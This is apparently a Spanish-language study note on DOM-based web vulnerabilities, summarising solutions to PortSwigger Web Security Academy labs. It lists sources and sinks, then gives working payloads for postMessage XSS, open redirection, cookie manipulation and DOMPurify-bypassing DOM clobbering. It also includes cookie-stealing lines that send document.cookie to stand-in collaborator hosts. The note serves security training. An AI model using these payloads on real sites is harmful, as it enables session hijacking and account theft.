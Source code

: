 ## ¿Qué es el DOM?

El **Document Object Model (DOM)** es una representación jerárquica de los elementos existentes en una página web. Los sitios web pueden utilizar Javascript para manipular nodos y objectos del DOM, así como sus propiedades.

La manipulación del **DOM** en sí no es un problema, de hecho, es una parte integral de cómo funcionan los portales web modernos. Sin embargo, **Javascript** puede manejar datos de forma poco seguro permitiendo habilitar que sea vulnerable a diferentes tipos de ataques.

Las vulnerabilidades basadas en **DOM** surgen cuando un sitio web contiene **Javascript** que toma un valor que el atacante puede controlar, conocido como **fuente** (**source** en inglés) y lo pasa a una **función peligrosa**, conocida como **sumidero** (**sink** en inglés).

* Source: `location.search`
* Sink: `eval()` OR Sink HTML: `document.body.InnerHTML`

### Fuentes comunes

```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
AddEventListener
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```
### Sumideros Comunes:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

<hr>

- Source: **AddEventListener** `Primeros 3 labs, resumidos.`
	- LAB: DOM XSS Web Messages
    - `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`

	* LAB: DOM XSS Web Messages Javascript:url
    - `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`

	*  LAB: DOM XSS Web Messages & **JSON** Parse
    - `<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`

#### Pequeño ejemplo para filtrar la Cookie: 

```js
//Filtrar la cookie: 
<iframe src="https://0a49000e03ea172382c2f1c100f3001b.web-security-academy.net/" 
onload="this.contentWindow.postMessage('javascript:fetch(`https://colaborador.com?cookie=${document.cookie}`)//http:','*')">
</iframe>
```

- Check for DOM redirections (parameters hidden in source code)
- Cookies containing URLs

<hr>
### Steal a cookie:

```
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://COLLABORATOR.com?collector=`+btoa(document.cookie))>','*')">
```

### DOM XSS using web messages

```
Notice that the home page contains an addEventListener() call that listens for a web message.

Go to the exploit server and add the following iframe to the body. Remember to add your own lab ID:

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### DOM XSS using web messages and a JavaScript URL

```
Notice that the home page contains an addEventListener() call that listens for a web message. 
The JavaScript contains a flawed indexOf() check that looks for the strings "http:" or "https:" anywhere within the web message. It also contains the sink location.href.

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

### DOM XSS using web messages and JSON.parse

```
Notice that the home page contains an event listener that listens for a web message. This event listener expects a string that is parsed using JSON.parse(). In the JavaScript, we can see that the event listener expects a type property and that the load-channel case of the switch statement changes the iframe src attribute.

<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### DOM Based Open Redirection

```js
//PAYLOAD: & `Location.href`
The blog post page contains the following link, which returns to the home page of the blog:

<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>

//Y mandamos la URL para que cargue el server exploit así:
* https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

### DOM Based Cookie Manipulation

```js
//PAYLOAD: & `Cookie: SameSite=None`
//El problema recae en que la cookie es controlable por el atacante
1. Notice that the home page uses a client-side cookie called `lastViewedProduct`, whose value is the URL of the last product page that the user visited.
2. Go to the exploit server and add the following `iframe` to the body, remembering to replace `YOUR-LAB-ID` with your lab ID:

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">

//encoded a URL, en caso tal de que no funcionara así.

```

### DOM Clobbering to Enable XSS

```js
//La sección de comentarios implementa un script vulnerable el cual usa sumideros inseguros como xmlHttpRequest
//En la seccion de comentarios HTML tiré un: <img src=x onerror=alert(1)> y coló WTFjaja, pero la solución real es: 
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">

//Está parseado en HTML pero en esencia es lo mismo que la teoria, en este caso se tomo la variable de `defaultAvatar`

- DomPurify allows the protocol `cid:`, which doesn't encode double quote (`"`): `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`

```

Eso es todo de dom, ave maría.